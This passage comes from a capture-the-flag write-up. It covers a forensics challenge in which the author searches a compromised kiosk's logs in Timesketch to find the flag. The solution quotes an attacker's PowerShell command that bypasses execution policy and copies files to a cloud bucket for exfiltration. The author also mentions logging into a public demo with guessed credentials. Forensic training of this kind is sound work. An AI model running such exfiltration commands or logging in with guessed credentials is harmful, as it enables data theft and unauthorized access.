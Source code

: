 … which contained the flag! Easy one.

### CHALLENGE 02

> After recent attacks, we've developed a search tool. Search the logs and discover what the attackers were after.
>
> HINT: Use the tool to be forensic in your search.

For this challenge, we are given a CSV file, and a readme.

The readme suggests using Timesketch to do some forensic.

> Timesketch is an open-source tool for collaborative forensic timeline analysis. Using sketches you and your collaborators can easily organize your timelines and analyze them all at the same time. Add meaning to your raw data with rich annotations, comments, tags and stars.

The readme also contains a storyline:

```text
Storyline:
Detectorsprotectors.biz is a cybersecurity company who is heavily invested in building software protections that protects flux capacitors on fire protection hardware.

A recent junior hire was tasked with deploying a kiosk machine at the reception to enable guests to quickly check-in. Unfortunately, one of the applications on the kiosk machine was outdated and lacked key patches.

A malicious actor has managed to compromise the machine.

Your task is to follow the log file provided, uncover the actions performed and find the flag.
We suspect that a number of reconnaissance activities have taken place using powershell.exe. The attacker probably made use of a RAT and established an exfiltration channel.
[...]
```

#### Solution

Installing Timesketch turned out to be a pain for me. I have a M1 Mac and a Docker server with limited resources, so I decided to look online for a demo.

I found what probably was an official demo, and I could log in with easily guessable credentials (I will leave this part to the reader).

I created a new investigation, uploaded the CSV file, and began to explore the data.

We know the attacker used PowerShell and a RAT (Remote Access Trojan), so I searched for PowerShell usage, getting more than 4.5k results. The last match (i.e., sorting by time, descending), contained the [defanged](https://isc.sans.edu/forums/diary/Defang+all+the+things/22744/), flag!

```text
PROCESS_LAUNCH by entity tech01 on asset kiosk.detectorsprotectors.biz : powershell.exe -ExecutionPolicy Bypass -C $SourceFile=(Get-Item #{host.dir.compress});$RemoteName="exfil-xbhqwf-$($SourceFile.name)";cloud gs cp #{transferwiser.io} gs://#{01000110 01001100 01000001 01000111 00111010.https://h[4]ck[1]n/g.go[og]le/s[ol]ve/**REDACTED**
}/$RemoteName;
```
